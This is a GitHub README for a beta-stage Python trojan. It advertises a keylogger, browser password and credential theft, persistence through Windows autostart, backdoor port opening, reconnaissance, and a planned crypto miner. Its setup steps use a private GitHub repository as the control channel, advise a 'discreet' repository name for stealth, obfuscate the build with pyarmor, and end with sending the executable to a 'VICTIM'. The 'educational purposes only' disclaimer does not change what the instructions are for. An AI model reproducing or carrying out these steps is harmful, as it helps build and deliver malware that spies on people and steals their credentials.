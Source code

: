 
# Trojan Project in Progress 🚀

Hi there! 👋  

Welcome to the **Trojan Project**, currently in its **beta stage**. This project is under active development and provides various tools and features to interact with a target system for **educational purposes only**. Here's what the project offers and how to set it up:

---

## 🔥 Current Features
- **System Information Retrieval 🖥️**  
  Gather detailed information about the target's operating system and environment variables. This module helps understand the victim's system setup and retrieve detailed network configuration data, including IP addresses, active connections, and public IP information.
  
- **Directory Lister 📂**  
  Explore files and directories in the target's system, enabling navigation through the victim's file system.
  
- **Windows Auto Start 🛠️**  
  Automatically configure the program to start with the operating system on Windows devices.

- **Port Opener 🔓**  
  Enables the opening of specific ports on the target system to facilitate communication or create backdoors for remote access.

- **Open Ports Scanner 🔍**  
  Identify open ports on the target Windows system, enabling network-level reconnaissance.

- **Windows Screenshots 📸**  
  Capture screenshots of the target's desktop on Windows systems. (Currently a work in progress with ongoing improvements.)

- **Keylogger 🔑**  
  A feature to capture keyboard inputs for monitoring activities.

- **Cryptocurrency Miner 💰**  
  Integrate a mining tool if I come up with a brilliant implementation plan.

- **Browser Data Extraction 🔐**  
  Extract saved credentials, passwords, and browsing history from common web browsers (Firefox, Chrome).

---

## ⚙️ How It Works
### **Project Structure**
The project follows this structure for modularity and ease of development:

```
├── config
│   └── abc.json
├── main.py
├── modules
│   ├── autostart.py
│   ├── browser_data_extractor.py
│   ├── btcminer.py
│   ├── dirlister.py
│   ├── environment.py
│   ├── gitimporter.py
│   ├── keylogger.py
│   ├── mytoken.txt
│   ├── openportslister.py
│   ├── port_opener.py
│   ├── screenshot.py
│   └── trojan.py
├── README.md
└── requirements.txt
```

---

### **Setting Up**
To ensure the project works seamlessly:
1. Navigate to the `modules` directory and create a file named `mytoken.txt`.
   - Inside this file, paste your **GitHub personal access token** for authentication.  
   - Learn how to create a token [here](https://github.com/settings/tokens).

2. Modify the `gitimporter.py` file to use your GitHub username and private repository name:  

```python
# Set your GitHub username
user = 'Rskladanek'  # Replace with your GitHub username

# Log in to GitHub using the token
sess = github3.login(token=token)

# Return the repository object
return sess.repository(user, 'Trojan')  # Replace 'Trojan' with your repository name
```

3. Create a private repository with a discreet name (avoid names like "Trojan" to maintain stealth).

4. Install the required dependencies:
   ```bash
   pip install -r requirements.txt
   ```

5. Prepare the executable:
   ```bash
   pyarmor pack -x " --add-data config/*:config --add-data modules/*:modules" main.py
   ```
   Then send it to your "VICTIM".

---

## ⚠️ Disclaimer
This project is strictly for **educational purposes only**. Unauthorized use of this software is illegal and violates laws and regulations. Always ensure you have explicit permission before deploying or testing this tool.

---

Stay tuned for updates! 🌟 Let’s keep it safe and "Smurf-tastic"! 😉